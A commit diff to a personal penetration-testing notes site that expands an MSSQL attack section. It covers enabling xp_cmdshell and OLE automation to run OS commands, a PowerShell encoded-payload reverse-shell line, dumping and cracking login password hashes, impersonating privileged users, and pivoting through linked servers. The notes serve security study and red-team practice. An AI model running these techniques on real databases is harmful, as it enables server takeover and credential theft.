

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/DatabaseAttacks.md, in a window 1280 px wide and 1400 px high, scrolled down 657 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
big database notes update

```diff
--- a/markdown/DatabaseAttacks.md
+++ b/markdown/DatabaseAttacks.md
@@ -26,6 +26,13 @@
 
 ## MSSQL
 - Database management built into Windows
+	- `master` database for system-level details, `msdb` database for scheduling alerts/jobs, `model` database acts as blueprint for new mssqlservers, `resource` database for hosting system objects in read-only fashion, `tempdb` database as temporary storage area
+	- Users v.s. logins
+		- Both users and logins are required to perform database operations
+		- Users dictate who can access the SQL server instance as a whole (but this doesn't provide any database access)
+			- These can be local database users, like `sa`, local Windows users, or Domain users
+			- Thus, a valid user without any database logins wouldn't be able to do anything, despite having credentials to access the server
+		- Logins provide users access to specific databases within the server
 - Controlled via `Invoke-Sqlcmd`
   - `Install-Module -Name SqlServer -Force`
   - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
@@ -35,26 +42,57 @@
   - Inspecting linked servers: `Get-SQLServerLink`
     	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
 - Kali has `impacket-mssqlclient` to connect to MSSQL databases
-	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
-		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
-			- This can be enabled by a user with permissions with
-			- `EXECUTE sp_configure 'show advanced options', 1;
-				- Showing advanced options is actually required to run xp_cmdshell
-			- `RECONFIGURE;`
-			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
-			- `RECONFIGURE;`
-			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
-	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
-	- `trustlink`, `sp_linkedservers`, and `use_link` for linked servers
+	- `impacket-mssqlclient {database_username}:{password}@{host IP}`
+		- `-windows-auth` allows us to authenticate with windows credentials; `-k` to use `.ccache` kerberos auth
+	- **Command Execution**
+		- Can use `enable_xp_cmdshell` and `xp_cmdshell {command}` to execute commands on the underlying server
+		- Can also use the blind `sp_start_job {command}` to execute commands, or the `sp_OACreate` method described below
+		- Turn this execution into a reverse shell with the python reverse shell generator in Miscellaneous notes
+			- `xp_cmdshell "powershell -exec bypass -enc {b64_payload}"`
+	- **Password Hashes**
+		- Get local database password hashes with `select name,password_hash from sys.sql_logins`
+			- Ignore `##MS##` hashes, since they're usually disabled (can be checked in `sys.sql_logins`) and the passwords are random
+		- Can be cracked with hashcat, but they need to be reorganized
+			- Stored in `b'0200 + 4-byte salt + 64-byte SHA512 hash'` structure, and we need it in `0x{hex}` format, so just remove byte string indicators and add `0x` at the front
+			- Then crack with `hashcat -m 1731`
+	- **Impersonation**
+		- We can use `enum_impersonate` to see who our current user can impersonate (`grantor` category)
+			- We can enumerate both users and logins with `exec_as_user {user}` or `exec_as_login {login}` on their own, which will drop us into a shell as that user/in that database
+				- If the authorized user or login is a domain user, we can pass the domain with `exec_as_{user/login} {domain}\{user}`
+			- From this point, we should run `enum_impersonate` again to see if our new user can impersonate anyone
+		- Our target would be to impersonate either the `sa` user, an equivalently-privileged user, or a `dbo` login of the `system` database
+			- The `dbo` login stands for Database Owner and gives full control over that database
+	- **Linked servers**
+		- After enumerating all accessible users, we can enumerate linked mssql servers with `enum_links`
+		- This will show us what linked servers our current user can use
+			- This will show which users have remote login permissions
+				- If local login `NULL` has a remote login, we can just execute queries without auth
+				- What will be more likely is a user that has impersonation rights with a remote login on another server
+					- Thus, we can log in as that user to the mssql server, run `use_link {server_name}`, and then interact with the database normally
+					- The `sa` user won't show any explicit links, since they're able to impersonate any user with a link
+						- Thus, if there's a user with access to a linked database, we can simply impersonate them using `sa`
+			- Running `enum_links` as `sa` (or equivalent) will show all user links, allowing different chains
+		- Can run basic queries as authorized users with `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
 - List all databases:
 	- `SELECT name FROM sys.databases;`
 	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
 	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
 		- `dbo` is a table schema
-- Can also use `sp_OACreate` to execute system commands
-	`EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
-- Linked servers can execute remote queries
-  - `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
+- Enabling `xp_cmdshell`:
+	- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
+		- This can be enabled by a user with permissions with
+			- `EXECUTE sp_configure 'show advanced options', 1; `
+				- Showing advanced options is actually required to run xp_cmdshell
+			- `RECONFIGURE;`
+			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
+			- `RECONFIGURE;`
+		- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
+- Can also use `sp_OACreate` to execute system commands:
+	- `sp_configure 'show advanced options', 1;`
+	- `RECONFIGURE;`
+	- `sp_configure 'Ole Automation Procedures', 1;`
+	- `RECONFIGURE;`
+	- `DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
 - Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`
 
 ## SQLite
--- a/notes.html
+++ b/notes.html
@@ -89,6 +89,7 @@
     <li><a href="./markdown/BinaryExploitation.html">Binary Exploitation</a></li>
     <li><a href="./markdown/AndroidApps.html">Android Apps</a></li>
     <li><a href="./markdown/iOSApps.html">iOS Apps</a></li>
+    <li><a href="./markdown/BluetoothLowEnergy.html">Bluetooth Low Energy</a></li>
   </ul>
 </div>
 
@@ -97,7 +98,6 @@
   <h2>Miscellaneous Resources</h2>
   <ul>
     <li><a href="./markdown/Miscellaneous.html">Miscellaneous Notes</a></li>
-    <li><a href="./markdown/BluetoothLowEnergy.html">Bluetooth Low Energy</a></li>
     <li><a href="https://ippsec.rocks/?#">Ippsec.rocks - search up literally <u>ANY</u> service</a></li>
     <li><a href="https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg">AD Mind Map - Orange CyberDefense</a></li>
     <li><a href="https://book.hacktricks.xyz/">Hacktricks - provides checklist for every port/common service</a></li>
```
Also changed, not shown: markdown/Miscellaneous.md (+1 -0 lines), markdown/PasswordAttacks.md (+1 -0 lines), markdown/RedTeamingCCDC.md (+2 -1 lines).
